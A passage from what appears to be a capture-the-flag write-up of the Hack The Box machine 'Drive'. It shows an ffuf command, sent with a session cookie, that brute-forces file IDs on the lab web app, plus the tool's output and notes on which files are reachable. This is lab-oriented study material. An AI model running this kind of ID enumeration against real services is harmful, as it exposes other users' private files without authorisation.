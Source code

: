I can do the same attack on files:



    oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v2.0.0-dev
    ________________________________________________

     :: Method           : GET
     :: URL              : http://drive.htb/FUZZ/getFileDetail/
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response status: 500
    ________________________________________________

    79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 336ms]
    99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 335ms]
    98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 347ms]
    101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 327ms]
    100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 357ms]
    112                     [Status: 200, Size: 5053, Words: 1062, Lines: 167, Duration: 334ms]
    :: Progress: [500/500] :: Job [1/1] :: 149 req/sec :: Duration: [0:00:03] :: Errors: 0 ::



There are two files I can access. 112 is the test file I uploaded, and
100 is the "Welcome_to_Doodle_Grive!" file owned by admin. There are
four other files that I can't access - 79, 98, 99, and 101.

It's worth noting that while I would expect an API endpoint like
`/[id]/block/` to set the reserved attribute to my user id, that
actually returns a page:
